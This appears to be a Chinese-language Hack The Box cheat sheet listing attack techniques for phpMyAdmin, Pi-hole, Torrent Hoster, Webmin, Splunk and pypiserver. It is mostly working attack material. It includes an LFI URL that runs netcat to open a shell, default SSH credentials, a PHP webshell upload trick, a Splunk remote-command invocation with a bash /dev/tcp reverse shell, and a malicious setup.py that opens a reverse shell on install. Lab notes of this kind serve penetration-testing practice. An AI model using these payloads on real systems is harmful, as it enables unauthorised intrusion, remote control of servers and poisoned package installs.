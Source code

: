 Reverse Shell:
```http
http://10.129.214.206/phpmyadmin/?cmd=nc -e /bin/sh 10.10.14.25 2233&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_c7b5dm84puvbpfr8bvcv0sbhbn8ncie2
```


### Pi-Hope 
**SSH Default Credentials :**    pi  /  raspberry


### Torrent Hoster
**Reverse Shell**
注册/登录后上传一个 torrent 文件，等待重定向界面，点击  `Edit this torrent`
上传 Screenshot , 一句话木马用 backdoor.php.gif , 抓包改包即可
上传文件目录为： `/torrent/upload/` 


### webmin
**Version < 1.910 , 任意命令执行漏洞**  （需要经过身份验证，CVE-2019-12840）
MSF ： exploit/linux/http/webmin_packageup_rce
Python :  https://0xdf.gitlab.io/2020/03/14/htb-postman.html#priv-matt--root


### Splunk
https://github.com/cnotin/SplunkWhisperer2/tree/master
需要经过凭据验证，远程命令执行，使用 PySplunkWhisperer2下的 PySplunkWhisperer2_remote.py
```bash
python PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.11 --username shaun --password Guitar123 --payload 'ping -c 1 10.10.14.11'
```
` sudo tcpdump -ei tun0 icmp` 在 kali 建立流量监听，检查是否执行成功

Rev Shell Payload:
```bash
python PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.11 --username shaun --password Guitar123 --payload 'bash -c "bash -i >& /dev/tcp/10.10.14.11/1337 0>&1"'
```


### pypiserver
**身份验证 hash 位置为主目录下的 `.htpasswd` 文件**

**创建恶意 Python 包  (需要 pypi 的凭据信息)**
https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/
- setup.py  
```python
import os
import socket
import subprocess
from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
    def run(self):
        RHOST = '10.10.14.11'
        RPORT = 7788
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        for i in range(3):
            os.dup2(s.fileno(), i)
        p = subprocess.call(["/bin/sh","-i"])

setup(name='revshell',
      version='0.0.1',
      description='Reverse Shell',
      author='xekOnerR',
```